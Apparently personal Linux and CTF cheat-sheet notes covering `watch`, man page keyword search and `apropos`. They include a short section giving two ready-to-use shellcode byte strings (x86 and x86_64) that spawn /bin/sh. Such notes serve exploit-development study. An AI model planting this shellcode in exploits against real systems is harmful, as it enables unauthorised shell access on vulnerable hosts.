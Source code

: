 * `watch`, runs a designated command every `2` seconds by default, use `-n [number]` to set it to run every `[number]` of seconds
```
watch -n 5 ls
```

# Shell code in python
```python
sh=b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

sh=b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" (27 bytes)
```


# Man pages
* `-k`, keyword search
```
man -k passwd
```

* we can also use regular expression to narrow down the search
```
man -k '^passwd$'
```

* Then, we can select the number thats given in the output of the previous command to see more detail of that particular entry
```
man 5 passwd
```

* Can achieve the same with `apropos partition`
